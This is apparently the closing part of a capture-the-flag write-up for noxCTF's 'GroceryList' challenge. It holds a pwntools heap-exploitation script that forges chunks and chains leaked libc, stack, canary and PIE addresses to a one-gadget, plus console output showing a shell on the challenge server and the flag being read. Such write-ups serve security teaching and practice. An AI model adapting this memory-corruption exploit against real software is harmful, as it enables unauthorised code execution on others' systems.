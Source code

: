 ```python
edit_item(2, payload)
add_empty(3, 2)

remove_item(2)
# gdb.attach(r, gdbcmd.format(pie))
remove_item(2)
remove_item(2)

payload  = p64(libc + 0x45216)
payload += p64(0) * 2
payload += p64(canary)
payload += p64(pie + 0x1380)
payload += p64(libc + 0x45216)
edit_item(0, payload)

payload  = '\x00' * 3
payload += p64(stack - 0xb)
payload += p64(stack - 2 + 16)
payload += p64(pie + 0x20203d)
payload += p64(0) * 18
payload += p64(libc + 0x45216)
edit_item(2, payload)

_exit()
r.interactive()
```

## flag
```
λ › python solve.py chal.noxale.com 1232
[+] Opening connection to chal.noxale.com on port 1232: Done
[*] stack 0x7ffec128fb3b
[*] libc 0x7fdf29bb9000
[*] canary 0xedc677284751c5
[*] pie 0x55a4c8cd3000
[*] Switching to interactive mode

Goodbye

$ ls
GroceryList
flag
$ cat flag
noxCTF{I_L0ve_F0rg1ng_Chunk5}
$ 
[*] Closed connection to chal.noxale.com port 1232
```